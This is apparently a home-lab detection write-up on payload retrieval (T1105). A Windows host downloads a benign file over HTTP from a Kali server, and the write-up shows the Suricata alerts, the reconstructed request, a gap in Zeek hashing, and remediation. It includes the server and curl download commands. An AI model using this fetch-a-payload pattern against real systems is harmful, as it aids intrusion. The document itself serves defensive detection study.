


# 03 — Payload Retrieval (T1105 Ingress Tool Transfer)

**Attack in one sentence:** A victim host pulls a payload file over HTTP from an attacker-controlled server, and the sensor reconstructs the transfer off the wire.

## How I ran it

```bash
# Kali (10.0.40.50) serves a benign file over plaintext HTTP
cd ~/payload && sudo python3 -m http.server 80

# WIN11 (10.0.40.20) retrieves it (curl.exe, not bare curl in PowerShell)
curl.exe http://10.0.40.50/update.bin -o update.bin
```

Plaintext HTTP is required — over HTTPS the sensor sees the connection but not the file, which is the network sensor's blind spot and where the host view has to carry the detection.

## What the network saw

**Suricata — three signatures on the retrieval:**
- `ET HUNTING Generic .bin download from Dotted Quad` (sid 2018752) — a `.bin` pulled from a raw IP
- `ET HUNTING curl User-Agent to Dotted Quad` (sid 2034567) — the curl user-agent to an IP host
- `ET INFO Python SimpleHTTP ServerBanner` (sid 2034636) — fingerprinted the Kali `python3 -m http.server`



**The evidence — the reconstructed request off the wire.** The Suricata alert's `network.data.decoded` field contains the actual HTTP GET, rebuilt from packets, filename and all — WIN11 (`10.0.40.20`) pulling `/update.bin` from Kali (`10.0.40.50`) on port 80, `network.packet_source: wire/pcap`. The endpoint was never touched.

```
GET /update.bin HTTP/1.1
Host: 10.0.40.50
User-Agent: curl/8.14.1
```



## Honest finding — Zeek file carving

I expected Zeek's `files.log` to give me a SHA-256 of the transferred file (carve + hash off the wire). On my build, `files.log` produced no hash — SHA-256 file hashing is not guaranteed on by default in stock Zeek. Rather than fabricate a hash, I confirmed the retrieval through Suricata (above) and noted the gap. In a production build, file hashing/extraction runs through **Strelka** (which was running in `so-status`), so the hash would be pulled from there.

This is the write-up point: I found that one engine didn't produce the artifact I expected, verified the same event through another engine, and documented the limitation instead of hiding it.

## Rule-logic note (reads as analyst, not button-pusher)

The ET HUNTING "dotted quad" rules are written as `$HOME_NET -> $EXTERNAL_NET` — they're really built to catch this behavior heading *out* to the internet. They fired here on an internal transfer because the payload was served from a bare internal IP, which still matches the dotted-quad pattern. Worth knowing why the rule triggered rather than just screenshotting a red alert.

## Host comparison

No host-based equivalent. On-the-wire reconstruction of a file transfer is a capability unique to the network sensor — nothing in the AD or Wazuh host labs can rebuild a transferred file without touching the endpoint.

## Triage & remediation

- **Triage:** an internal host pulling a `.bin` from a bare IP over HTTP with a curl agent is suspicious tooling transfer; identify the file and the destination.
- **Remediation:** egress/HTTP filtering, block direct-to-IP downloads, and enable Zeek file extraction + hashing (Strelka) so transfers can be hashed and checked against threat intel.
